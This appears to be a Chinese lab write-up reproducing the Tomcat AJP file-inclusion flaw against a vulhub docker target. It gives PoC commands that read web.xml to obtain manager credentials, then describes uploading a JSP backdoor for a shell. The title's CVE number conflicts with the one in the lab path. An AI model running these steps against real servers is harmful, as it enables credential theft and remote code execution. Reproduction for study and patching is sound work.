

# 漏洞复现——Tomcat AJP文件包含漏洞CVE-2020-1983

# 一、Tomcat AJP文件包含漏洞概述

1. 该漏洞由长亭科技安全研究员发现，由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

# 二、漏洞原理

1. Tomcat 配置了两个Connecto，它们分别是 HTTP 和 AJP ：HTTP默认端口为8080，处理http请求，而AJP默认端口8009，用于处理 AJP 协议的请求，而AJP比http更加优化，多用于反向、集群等，漏洞由于Tomcat AJP协议存在缺陷而导致，攻击者利用该漏洞可通过构造特定参数，读取服务器webapp下的任意文件以及可以包含任意文件，如果有某上传点，上传图片马等等，即可以获取shell

# 三、影响版本

1. Apache Tomcat 6
2. Apache Tomcat 7 < 7.0.100
3. Apache Tomcat 8 < 8.5.51
4. Apache Tomcat 9 < 9.0.31

# 四、漏洞复现

1. 将POC拉取到攻击机，POC地址：https://github.com/hypn0s/AJPy.git

   ``` shell
   git clone https://github.com/hypn0s/AJPy.git
   ```

2. 进入靶机~/vulhub/tomcat/CVE-2020-1938目录启动环境

   ``` shell
   sudo docker-compose up -d
   ```

3. 使用poc查看Tomcat靶机的tomcat版本信息

   ``` shell
   python3 tomcat.py version 192.168.50.198
   ```

4. 使用poc读取tomcat配置文件web.xml

   ``` shell
   python3 tomcat.py read_file --webapp=manager /WEB-INF/web.xml 192.168.50.198
   ```

   

5. 成功读取到配置信息，发现tomcat manager-gui的账号和密码

   

6. 登录到tomcat manager后，配合war包上传jsp后门文件可执行任意代码、getshell

# 五、修复建议

1. 升级最新版Tomcat

2. 关闭AJP Connector